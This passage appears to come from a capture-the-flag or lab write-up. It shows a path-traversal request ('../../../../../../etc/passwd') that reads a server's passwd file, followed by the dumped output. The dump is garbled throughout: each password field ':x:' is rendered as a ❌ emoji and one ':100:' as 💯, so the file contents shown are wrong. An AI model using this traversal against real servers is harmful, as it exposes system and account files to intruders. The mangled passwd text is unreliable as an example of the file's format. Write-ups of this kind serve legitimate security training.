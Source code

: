 Let's try to read `/etc/passwd`

![](../../.gitbook/assets/passwd.png)

```
 <!=====Contents of file ../../../../../../etc/passwd=====>
root❌0:0:root:/root:/bin/bash
bin❌1:1:bin:/bin:/sbin/nologin
daemon❌2:2:daemon:/sbin:/sbin/nologin
adm❌3:4:adm:/var/adm:/sbin/nologin
lp❌4:7:lp:/var/spool/lpd:/sbin/nologin
sync❌5:0:sync:/sbin:/bin/sync
shutdown❌6:0:shutdown:/sbin:/sbin/shutdown
halt❌7:0:halt:/sbin:/sbin/halt
mail❌8:12:mail:/var/spool/mail:/sbin/nologin
operator❌11:0:operator:/root:/sbin/nologin
games❌12💯games:/usr/games:/sbin/nologin
ftp❌14:50:FTP User:/var/ftp:/sbin/nologin
nobody❌65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus❌81:81:System message bus:/:/sbin/nologin
systemd-coredump❌999:997:systemd Core Dumper:/:/sbin/nologin
systemd-resolve❌193:193:systemd Resolver:/:/sbin/nologin
tss❌59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
polkitd❌998:996:User for polkitd:/:/sbin/nologin
geoclue❌997:994:User for geoclue:/var/lib/geoclue:/sbin/nologin
rtkit❌172:172:RealtimeKit:/proc:/sbin/nologin
qemu❌107:107:qemu user:/:/sbin/nologin
apache❌48:48:Apache:/usr/share/httpd:/sbin/nologin
cockpit-ws❌996:993:User for cockpit-ws:/:/sbin/nologin
pulse❌171:171:PulseAudio System Daemon:/var/run/pulse:/sbin/nologin
usbmuxd❌113:113:usbmuxd user:/:/sbin/nologin
unbound❌995:990:Unbound DNS resolver:/etc/unbound:/sbin/nologin
rpc❌32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
gluster❌994:989:GlusterFS daemons:/run/gluster:/sbin/nologin
chrony❌993:987::/var/lib/chrony:/sbin/nologin
libstoragemgmt❌992:986:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
saslauth❌991:76:Saslauthd user:/run/saslauthd:/sbin/nologin
dnsmasq❌985:985:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
radvd❌75:75:radvd user:/:/sbin/nologin
clevis❌984:983:Clevis Decryption Framework unprivileged user:/var/cache/clevis:/sbin/nologin
pegasus❌66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
sssd❌983:981:User for sssd:/:/sbin/nologin
colord❌982:980:User for colord:/var/lib/colord:/sbin/nologin
```